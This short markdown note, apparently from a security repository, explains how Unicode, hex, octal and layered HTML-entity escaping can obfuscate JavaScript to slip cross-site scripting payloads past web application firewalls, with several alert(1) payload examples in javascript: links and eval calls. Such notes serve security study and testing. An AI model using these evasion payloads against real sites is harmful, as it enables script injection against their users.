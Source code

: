 # Unicode


Unicode escape sequences consist of the prefix \u followed by the four-digit hex code for the character.

`\u003a` represents a colon.

ES6 also supports a new form of unicode escape using curly braces: `\u{3a}`

It's also worth noting that the ES6-style unicode escapes also allow optional leading zeros, so some WAFs may be easily fooled using the same technique we used for HTML encodings.

For example: `<a href="javascript:\u{00000000061}alert(1)">Click me</a>`

Obfuscation via hex escaping
eval("\x61lert")

Obfuscation via octal escaping
eval("\141lert(1)")

Obfuscation via multiple encodings

`<a href="javascript:&bsol;u0061lert(1)">Click me</a>` (Note: `&bsol;,` is `\`)

This is then decoded further to form a functioning XSS payload:
`<a href="javascript:alert(1)">Click me</a>`

